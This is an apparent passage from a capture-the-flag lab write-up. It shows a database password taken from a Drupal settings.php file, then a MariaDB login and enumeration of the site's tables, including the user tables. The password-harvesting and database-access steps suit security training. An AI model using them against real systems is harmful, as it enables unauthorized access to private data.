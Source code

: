 ```php

$databases = array (                                                                           
  'default' =>                                                                                 
  array (                                                                                      
    'default' =>                                                                               
    array (                                                                                    
      'database' => 'drupaldb',                                                                
      'username' => 'drupal',                                                                  
      'password' => 'EstaContraNoesTanImp0rtant3!!!',                                          
      'host' => 'localhost',                                                                   
      'port' => '',                                                                            
      'driver' => 'mysql',                                                                     
      'prefix' => 'ptd_',                                                                      
    ),                                                                                         
  ),                                                                                           
);                     
```

We got the password. I tried it with user1 but it didn't work.

Let's connect to the database and see what we can find.

```terminal

www-data@chilakiller:/var/www/html/restaurante/sites/default$ mysql -u drupal -p                                                                                                     [87/1109]
Enter password: ller:/var/www/html/restaurante/sites/default$ mysql -u drupal -p                                                                                                              
Welcome to the MariaDB monitor.  Commands end with ; or \g.                 
Your MariaDB connection id is 68                                            
Server version: 10.1.45-MariaDB-0+deb9u1 Debian 9.12                        
                                                                            
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.                                                                                                       
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.                                                                                             
MariaDB [(none)]>                                                           MariaDB [(none)]> show databases;                                                              
+--------------------+                                                      | Database           |                                                                         
+--------------------+                                                      | drupaldb           |                                                                         
| information_schema |             
+--------------------+                         
2 rows in set (0.00 sec)           

MariaDB [(none)]> use drupaldb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [drupaldb]> show tables;
+---------------------------------+
| Tables_in_drupaldb              |
+---------------------------------+
| ptd_actions                     |
| ptd_authmap                     |
[...]
| ptd_users                       |
| ptd_users_roles                 |
| ptd_variable                    |
| ptd_watchdog                    |
+---------------------------------+
76 rows in set (0.00 sec)
```